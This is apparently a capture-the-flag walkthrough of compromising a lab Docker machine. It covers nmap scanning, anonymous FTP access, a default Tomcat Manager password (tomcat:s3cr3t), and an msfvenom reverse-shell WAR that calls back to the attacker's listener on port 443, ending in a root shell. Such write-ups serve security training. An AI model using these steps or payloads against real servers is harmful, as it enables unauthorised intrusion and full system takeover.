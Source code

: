 

# -Pn

## Reconnaissance and Enumeration
Check that the machine is up and running.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Once we get a response from ping, we can start enumerating the machine. The ttl=64 might indicate that it is a Linux machine.

We run nmap to see which ports are open.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Performs a SYN scan.
- `-p-`: Scans all ports.
- `--open`: Shows only open ports.
- `--min-rate 5000`: Sets the minimum packet sending rate to 5000 per second.
- `-vvv`: Generates very detailed and verbose output.
- `-n`: Prevents reverse DNS resolution.
- `-Pn`: Skips host discovery.
- `-oG allPorts`: Saves the results in a file called "allPorts".
- `172.17.0.2`: The target host IP address.

```bash
PORT     STATE SERVICE    REASON
21/tcp   open  ftp        syn-ack ttl 64
8080/tcp open  http-proxy syn-ack ttl 64
```

Since we have ports 21 and 8080 open, let's check the version and run some basic scripts to see what information we can gather.

```bash
nmap -sCV -p21,8080 -vvv -oN versionPorts 172.17.0.2
```
- `-sCV`: Version and vulnerability scan.
- `-p21,8080`: Scans ports 21 (FTP) and 8080 (HTTP).
- `-vvv`: Very detailed and verbose output.
- `-oN versionPorts`: Saves the results in "versionPorts".
- `172.17.0.2`: The IP address of the scanned host.
```bash
PORT     STATE SERVICE REASON         VERSION
21/tcp   open  ftp     syn-ack ttl 64 vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              74 Apr 19 07:32 tomcat.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
8080/tcp open  http    syn-ack ttl 64 Apache Tomcat 9.0.88
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.88
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```
We can see that we have the Anonymous user in the open FTP, so let's connect.
```bash
ftp 172.17.0.2
```
```
❯ ftp 172.17.0.2
Connected to 172.17.0.2.
220 (vsFTPd 3.0.5)
Name (172.17.0.2:tbrux): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||15473|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              74 Apr 19 07:32 tomcat.txt
```
We find a file called tomcat.txt, so we download it to our machine and check what information it contains.
```bash
get tomcat.txt
```
```
tp> get tomcat.txt
local: tomcat.txt remote: tomcat.txt
229 Entering Extended Passive Mode (|||38522|)
150 Opening BINARY mode data connection for tomcat.txt (74 bytes).
100% |***********************************************************************************************************************************************************************************************|    74        1.10 MiB/s    00:00 ETA
226 Transfer complete.
74 bytes received in 00:00 (227.25 KiB/s)
ftp> exit
221 Goodbye.
❯ cat tomcat.txt
Hello tomcat, can you configure the tomcat server? I lost the password...
```
It’s a message for the tomcat user, so now we just need to find the password. Let's check port 8080.

## Exploitation.
Click on the Manager APP button. We try one of the default passwords for the tomcat user and we are inside the panel.
```
tomcat:s3cr3t
```
On the page, we see the options and go to WAR file to deploy. From there, we can upload a malicious file with a reverse shell created using msfvenom.
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=443 -f war -o revshell.war
```
Once created, we see a list of files and directories. We start listening on port 443.
```bash
nc -lvnp 443
```
We click on the revshell file we uploaded and establish a reverse shell with the victim machine with root privileges.
```
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 59678
whoami
root
```
